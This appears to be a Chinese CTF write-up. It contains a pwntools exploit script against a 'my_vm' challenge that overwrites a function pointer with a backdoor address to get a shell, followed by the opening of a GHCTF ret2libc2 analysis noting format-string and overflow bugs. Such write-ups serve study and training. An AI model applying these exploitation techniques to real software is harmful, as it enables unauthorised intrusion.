 ### 覆盖func
```python 
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=0
url='node1.anna.nssctf.cn'
port=28844
elf=ELF("./my_vm")
if mode == 0:
    io=process("./my_vm")
else :
    io=remote(url,port)

def Code(op,dest,src1,src2):
    code=(op<<24)+(dest<<16)+(src1<<8)+src2
    io.sendline(str(code))

io.sendlineafter("set your IP:","0")
io.sendlineafter("set your SP:","1")
io.sendlineafter("execve:",str(14))


### Code 
Code(0x10,0,0,8)   #reg[0]=8
Code(0x10,1,0,0)
Code(0x50,1,1,0)   #reg[1]=-8
Code(0x10,2,0,7)   #reg[2]=7
Code(0x10,4,0,4)   #reg[4]=4
Code(0x80,3,2,4)   #reg[3]=0x70
Code(0x40,3,3,2)   #reg[3]=0x77
### backdoor  
Code(0x80,4,4,4)   #reg[4]=0x40
Code(0x80,4,4,0)   #reg[4]=0x4000
Code(0x80,4,4,0)   #reg[4]=0x400000
Code(0x80,0,0,0)   #reg[0]=0x800
Code(0x40,0,0,3)   #reg[0]=0x877
Code(0x40,4,4,0)   #reg[4]=0x400877
Code(0x90,1,4,0)
io.interactive()

```

# GHCTF ret2libc2

## ida分析

### func函数分析
![98a456adebe8adb789ba9ca00f26a510](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/98a456adebe8adb789ba9ca00f26a510.png)
1.程序很简单,main函数里只有init和func，这里直接看到func函数
2.可以看到存在一个格式化字符串漏洞和溢出漏洞.
3.程序没有提供system和`/bin/sh\x00`，需要泄露libc，完成ret2libc.

